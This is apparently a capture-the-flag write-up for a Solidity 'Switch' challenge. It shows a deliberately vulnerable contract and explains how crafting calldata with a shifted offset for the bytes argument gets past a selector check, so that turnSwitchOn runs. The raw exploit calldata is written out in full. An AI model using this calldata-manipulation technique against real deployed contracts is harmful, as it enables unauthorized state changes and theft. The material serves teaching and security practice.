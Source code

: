 ## Challenge
~~~
Just have to flip the switch. Can't be that hard, right?

##### Things that might help:

Understanding how `CALLDATA` is encoded.
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```
`

## Solution

Single contract with:
- two state variables -` bool switchOn` and `bytes4 offSelector` 
- two modifiers `onlyThis` which allows only the contract to call its functions, `onlyOff` which checks if certain part of calldata is the function selector
- two functions which can be called only by the contract - `turnSwitchOn()` and `turnSwitchOff()`
- one public function which accepts data and internally uses `call()` to send it to the current contract

We need a certain `bytes data` to pass to that function to bypass this check `selector[0] == offSelector`



calldatacopy accepts three arguments:
- destOffset - byte offset in memory where the result will be copied
- offset - byte offset in the calldata to copy
- size - bytesize to copy
  
  normal encoding of calldata for `flipswitch(bytes _data)`
  func_selector (4bytes)
  position in bytes where `_data`(bytes are encoded with size and actual encoding of the data) starts (32 bytes, left padded)
  encoded size in hexadecimal format (32bytes, left padded)
  actual `_data` (32bytes * X, padded right)


There is a check for the 4 bytes starting from the 68th byte in our calldata, this is where the `_data` starts in normal packed calldata and as it the place where the function selector is expected to be. We can bypass it by specifying another place where `_data would start` and write to the expected func selector from 68th to 72nd byte.

30c13ade <- flipSwitch selector
0000000000000000000000000000000000000000000000000000000000000020 -> position where encoded `_data` is
0000000000000000000000000000000000000000000000000000000000000004 -> size of `_data`
1234567800000000000000000000000000000000000000000000000000000000 -> `_data` (dummy func selector here)

30c13ade
0000000000000000000000000000000000000000000000000000000000000060
0000000000000000000000000000000000000000000000000000000000000000
20606e1500000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000004
76227e1200000000000000000000000000000000000000000000000000000000

## Key takeaways and useful resources


https://www.youtube.com/watch?v=upVloLUw5Z0
